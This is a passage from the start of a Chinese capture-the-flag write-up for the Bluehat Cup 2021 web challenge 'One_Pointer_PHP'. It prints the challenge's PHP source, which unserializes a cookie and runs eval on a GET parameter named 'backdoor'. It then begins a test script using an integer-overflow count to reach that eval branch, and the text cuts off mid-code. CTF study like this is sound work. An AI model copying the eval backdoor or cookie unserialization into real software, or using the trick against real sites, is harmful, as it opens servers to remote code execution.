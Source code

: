 ```yaml
---
title: 蓝帽杯2021一道题——One_Pointer_PHP
comments: true
hide: false
date: 2021-05-02 13:04:27
urlname: bluehat2021
updated:
password:
tags:
categories:
  - Write-Up
---
```


深入学习蓝帽杯web一道题



质量很高的一道题，详细写下做个总结，深入学习一下知识点

## WEB-One_Pointer_PHP

### 第一层

给了`www.zip`，部分源码，分析一下

```php
<?php
class User{
	public $count;
}

if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
?>
```

反序列化`cookies->data`使其$count[++$user->count]=1;后`$count[]=1`为false即可eval执行命令，伴随应该题目还有更多考点，测试如下。

```php
<?php
class User{
    public $count;
}

$a = new User();
$a->count = 9223372036854775806;

$user=unserialize(serialize($a));
$count[++$user->count]=1;
var_dump($count);

if($count[]=1){
    echo "die";
}else{
```